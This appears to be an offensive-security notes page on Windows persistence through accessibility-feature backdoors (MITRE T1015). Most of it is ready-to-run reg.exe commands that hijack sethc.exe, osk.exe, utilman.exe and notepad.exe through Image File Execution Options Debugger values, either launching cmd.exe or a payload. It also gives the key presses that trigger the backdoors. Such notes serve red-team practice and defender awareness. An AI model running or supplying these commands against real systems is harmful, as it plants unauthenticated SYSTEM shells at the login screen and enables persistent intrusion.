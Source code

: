 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1015
  - windows
---
```

# Living off the Land

## Sticky Keys

> [!INFO] Shortcut Key
> To trigger the backdoor hit `SHIFT` 5 times

### Command Prompt

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\System32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\System32\cmd.exe" /f
```

### PowerShell

TODO: Convert the commands to cmdlets

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\System32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\System32\cmd.exe" /f
```

## Accessibility On-Screen Keyboard

### Command Prompt

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\System32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\System32\cmd.exe" /f
```

### PowerShell

TODO: Convert the commands to cmdlets

## Utility Manager

> [!INFO] Shortcut Key
> To trigger the backdoor hit `Win + U`

### Command Prompt

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\Windows\System32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "C:\windows\System32\cmd.exe" /f
```

### PowerShell

TODO: Convert the commands to cmdlets

```

```

## Notepad

### Command Prompt

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "C:\path\to\payload.exe" /f
```

For modern operating systems

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "C:\path\to\payload.exe" /f
```

### PowerShell

TODO: Convert the commands to cmdlets

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

### Persistence Info

- [Persistence Info: Image File Execution Options](https://persistence-info.github.io/Data/ifeo.html)

### Red Team Notes

- [Red Team Notes: Sticky Keys](https://www.ired.team/offensive-security/persistence/t1015-sethc)

### DoublePolsar

- [RDP hijacking - how to hijack RDS and RemoteApp sessions transparently to move through an organisation](https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)

### DMCXBlue

- [DMCXBlue: Accessibility Features](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1546-event-triggered-execution/accessibility-features)